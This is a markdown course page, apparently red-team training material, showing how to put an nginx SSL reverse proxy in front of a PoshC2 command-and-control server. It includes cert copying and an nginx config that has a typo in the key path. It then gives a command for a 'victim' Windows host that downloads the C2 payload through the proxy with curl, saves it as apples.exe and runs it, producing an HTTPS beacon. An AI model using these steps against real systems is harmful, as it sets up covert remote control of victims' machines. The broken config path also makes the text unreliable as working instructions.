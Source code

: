 # How to Setup SSL in Nginx

1. First if your poshc2 is still running on port `80` we need to start a new project with using `443`
2. Now lets add our Poshc2 ssl certs from our project folder to nginx
    ```bash
    scp {posh.crt,posh.key} username@<ubuntu-proxy-ip>:.
    ```
    > **NOTE:** This command will scp both files to the users `home` folder
3. Now lets move our ssl certs from our home directory to `/etc/nginx/`
    ```bash 
    mv {posh.crt,posh.key} /etc/nginx/.
    ```
    > **NOTE:** Make sure you are in your users home folder `/home/<usernmae>
4. Then lets move over to our ubuntu server and edit our `/etc/nginx/conf.d/lp_proxy.conf` and add our SSL rules under our rules for 80 coms
    ```nginx
    server {
        listen 443;
        server_name <ubuntu_server_ip>

        ssl_certificate /etc/nginx/posh.crt;
        ssl_certificate_key /etc/nginc/posh.key;
        ssl on;

        location / {
            proxy_pass https://192.168.178.128;
        }
    }
    ```

5. Now we just reload our nginx service and it should apply all our changes
6. On our Windows Vict. lets download our hosted payload through our proxy using `curl`
    ```bash
    curl -k https://192.168.178.132/<poshc2-uri> -o apples.exe && .\apples.exe
    ```
7. Boom you now have a HTTPS beacon. 

## [Return to course page](README.md)